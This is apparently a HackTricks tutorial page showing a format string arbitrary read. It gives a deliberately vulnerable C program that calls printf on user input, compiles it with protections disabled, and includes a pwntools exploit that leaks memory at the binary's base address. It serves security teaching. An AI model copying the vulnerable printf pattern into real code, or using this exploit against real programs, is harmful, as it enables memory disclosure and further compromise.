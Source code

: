 # Format Strings - Arbitrary Read Example
{{#include /banners/hacktricks-training.md}}


{{#include ../../banners/hacktricks-training.md}}

## Read Binary Start

### Code

```c
#include <stdio.h>

int main(void) {
    char buffer[30];

    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    return 0;
}
```

Compile it with:

```python
clang -o fs-read fs-read.c -Wno-format-security -no-pie
```

### Exploit

```python
from pwn import *

p = process('./fs-read')

payload = f"%11$s|||||".encode()
payload += p64(0x00400000)

p.sendline(payload)
log.info(p.clean())
```

- The **offset is 11** because setting several As and **brute-forcing** with a loop offsets from 0 to 50 found that at offset 11 and with 5 extra chars (pipes `|` in our case), it's possible to control a full address.
  - I used **`%11$p`** with padding until I so that the address was all 0x4141414141414141
- The **format string payload is BEFORE the address** because the **printf stops reading at a null byte**, so if we send the address and then the format string, the printf will never reach the format string as a null byte will be found before
- The address selected is 0x00400000 because it's where the binary starts (no PIE)

<figure><img src="broken-reference" alt="" width="477"><figcaption></figcaption></figure>
